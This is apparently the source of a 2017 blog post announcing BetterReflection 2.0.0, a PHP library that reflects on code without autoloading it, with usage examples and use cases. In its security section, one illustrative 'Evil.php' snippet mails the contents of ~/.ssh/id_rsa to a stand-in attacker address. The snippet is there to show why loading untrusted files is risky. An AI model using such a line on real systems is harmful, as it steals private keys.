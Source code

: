 ```yaml
---
layout: post
title: BetterReflection version 2.0.0 released
category: Security
tags: ["PHP", "Library", "Roave", "Clean Code", "Tools"]
year: 2017
month: 9
day: 18
published: true
summary: BetterReflection version 2 was released: let's look at its main features and improvements
description: BetterReflection is a library that aims at providing additional and improved Reflection API compared to PHP's ext-reflection
tweet: 
---
```

<p>
    <a href="https://twitter.com/RoaveTeam" target="_blank" rel="fn org">Roave</a>'s
    <a href="https://github.com/Roave/BetterReflection" target="_blank">BetterReflection</a>
    <a href="https://github.com/Roave/BetterReflection/releases/tag/2.0.0" target="_blank">2.0.0s</a>
    was released today!
</p>

<p>
    I and <a href="http://twitter.com/asgrim" target="_blank">James Titcumb</a> started working on this
    project back in 2015, and it is a pleasure to see it reaching maturity.
</p>

<p>
    The initial idea was simple: I would get to watch James implement all my wicked ideas, while I
    would lay back and get drunk on Drambuie.
</p>

<!-- @TODO add drunken marco pic -->

<p>
    Yes, that actually happened. Thank you, James, for all the hard work! <!-- TODO beer -->
</p>

<p>
    <small>(I did some work too!)</small>
</p>

<p>
    Jokes apart, the project is quite ambitious, and it aims at reproducing the entirety of the PHP
    reflection API without having any actual autoloading being triggered.
</p>

<h3>What the heck is BetterReflection?</h3>

<p>
    When put in use, it looks something like this:
</p>

~~~php
<?php

// src/MyClass.php

namespace MyProject;

class MyClass
{
    public function something() {}
}
~~~

~~~php
<?php

// example1.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\ReflectionMethod;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$methodNames = \array_map(function (ReflectionMethod $method) : string {
    return $method->getName();
}, $myClass->getMethods());

\var_dump($methodNames);

// class was not loaded:
\var_dump(\sprintf('Class %s loaded: ', MyClass::class));
\var_dump(\class_exists(MyClass::class, false));
~~~

<p>
    As you can see, the difference is just in how you bootstrap the reflection API.
</p>

<p>
    Also, we do provide a fully backwards-compatible reflection API that you can use
    if your code heavily relies on <code>ext-reflection</code>:
</p>

~~~php
<?php

// example2.php

use MyProject\MyClass;
use Roave\BetterReflection\BetterReflection;
use Roave\BetterReflection\Reflection\Adapter\ReflectionClass;

require_once __DIR__ . '/vendor/autoload.php';

$myClass = (new BetterReflection())
    ->classReflector()
    ->reflect(MyClass::class);

$reflectionClass = new ReflectionClass($myClass);

// You can just use it wherever you had `ReflectionClass`!
\var_dump($reflectionClass instanceof \ReflectionClass);
\var_dump($reflectionClass->getName());
~~~

<p>
    How does that work?
</p>

<!-- @TODO insert magic gif? -->

<p>
    The working concept is quite simple, really:
</p>

<ol>
    <li>
        We scan your codebase for files matching the one containing your class.
        This is fully configurable, but by default we use some ugly autoloader
        hacks to find the file without wasting disk I/O.
    </li>
    <li>
        We feed your PHP file to <a href="https://github.com/Nikic/PhpParser" target="_blank">PhpParser</a>
    </li>
    <li>
        We analyse the produced <abbr title="Abstract Syntax Tree">AST</abbr> and
        wrap it in a matching <code>Roave\BetterReflection\Reflection\*</code>
        class instance, ready for you to consume it.
    </li>
</ol>

<p>
    The hard part is tracking the miriad of details of the PHP language,
    which is very complex and cluttered with scope, visibility and inheritance
    rules. We take care of that work for you.
</p>

<h3>Use cases</h3>

<p>
    The main use-cases for BetterReflection are most likely around security, code
    analysis and <abbr title="Ahead of Time">AOT</abbr> compilation.
</p>

<p>
    One of the most immediate use-cases will likely be in
    <a href="https://github.com/phpstan/phpstan" target="_blank">PHPStan</a>, which
    will finally be able to inspect hideous mixed OOP/functional/procedural code
    if <a href="https://github.com/phpstan/phpstan/issues/67" target="_blank">
        the current WIP implementation
    </a> works as expected.
</p>

<p>
    Since you can now "work" with code before having loaded it, you can harden API
    around a lot of security-sensitive contexts. A serializer may decide
    to not load a class if side-effects are contained in the file declaring it:
</p>

~~~php
<?php

// Evil.php
\mail(
    'haxxor@evil.com',
    'All ur SSH keys are belong to us',
    \file_get_contents('~/.ssh/id_rsa')
);

// you really don't want to autoload this bad one:
class Evil {}
~~~

<p>
    The same goes for classes implementing malicious <code>__destruct</code> code,
    as well as classes that may trigger autoloading of other malicious code.
</p>

<p>
    It is also possible to analyse code that is downloaded from the internet without
    actually running it. For instance, code may be checked against GPG signatures in
    the file signature before being run, effectively allowing PHP to "run only signed code".
    <a href="https://getcomposer.org/" target="_blank">Composer</a>, anybody?
</p>

<p>
    If you are more into code analysis, you may decide to compare two different
    versions of a library, and scan for <abbr title="Backwards Compatibility>BC</abbr>
    breaks:
</p>

~~~php
<?php
// the-library/v1/src/SomeApi.php

class SomeAPI
{
    public function sillyThings() { /* ... */ }
}
~~~

~~~php
<?php
// the-library/v2/src/SomeApi.php

class SomeAPI
{
    public function sillyThings(UhOh $bcBreak) { /* ... */ }
}
~~~

<p>
    In this scenario, somebody added a mandatory parameter to <code>SomeAPI#sillyThings()</code>,
    effectively introducing a BC break that is hard to detect without having both versions of the
    code available, or a good migration documentation (library developers: please document this
    kind of change!).
</p>

<h3>Future use cases?</h3>

<p>
    In addition to the above use-case scenarios, we are working on additional
    functionality that would allow changing code before loading it. 
</p>
<p>
    Is that a good idea?
</p>
    ... I honestly don't know.
</p>

<p>
    Still, there are proper use-case scenarios around
    <abbr title="Aspect Oriented Programming">AOP</abbr> and proxying libraries,
    which would then be able to work even with <code>final</code> classes.
</p>

<p>
    You will likely see these features appear in a new, separate library.
</p>

<h3>Credits</h3>